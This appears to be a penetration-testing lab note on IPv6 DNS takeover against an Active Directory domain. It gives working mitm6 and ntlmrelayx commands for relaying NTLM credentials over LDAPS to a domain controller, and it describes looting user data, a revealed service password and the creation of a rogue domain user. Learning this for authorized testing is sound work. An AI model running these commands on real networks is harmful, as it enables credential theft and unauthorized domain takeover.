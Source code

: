 ### IPv6 Overview
We see that the windows users always turn on their IPv6 settings but only utilizes IPv4. So no one is doing DNS for IPv6. In this kind of attack an attacker would setup a fake DNS server for IPv6 and accept all the traffic comming from IPv6. It can be hashes which can be relayed using LDAPS to the Domain Controller

**Download mitm6 from this link**
https://github.com/fox-it/mitm6

### IPv6 DNS Takeover via mitm6
First lets spoof the IPv6 traffic. Type the following command
```bash
mitm6 -d <domain name>

# Example
mitm6 -d marvel.local
```

Now setup **ntlmrelayx** to perform relay attack using LDAPS. Type the following command
```bash
ntlmrelayx.py -6 -t ldaps://<domain controller ip> -wh <fake wpad> -l <folder for loot>

#Example
ntlmrelayx.py -6 -t ldaps://192.168.247.129 -wh fakewpad.marvel.local -l lootme
```

| Commands | Use |  
| ----------- | ----------- |  
| -6 | Using IPv6 Protocol  |  
| -t | Target |
| -wh | wpad server |
| -l | loot |

Now restart the other windows 10 machine to get the connection

![[Pasted image 20210724104327.png]]

![[Pasted image 20210724104401.png]]

Now check the lootme folder that is created

![[Pasted image 20210724104451.png]]

As you can see it has enumerated domain users etc

Lets open **domain_users_by_group.html file**

![[Pasted image 20210724104843.png]]

As you can see sqlservice password is revealed 
Now login to the windows machine as administrator

![[Pasted image 20210724105006.png]]

This created a ACL and added a new user to the domain

![[Pasted image 20210724105052.png]]

Checking the Domain Controller for users

![[Pasted image 20210724105203.png]]

As we can confirm a new user is created with domain rights

### Defenses
![[Pasted image 20210724105517.png]]

### Must Read
##### The worst of both worlds: Combining NTLM Relaying and Kerberos delegation
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/

##### mitm6 – compromising IPv4 networks via IPv6
https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/

##### Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition)

https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
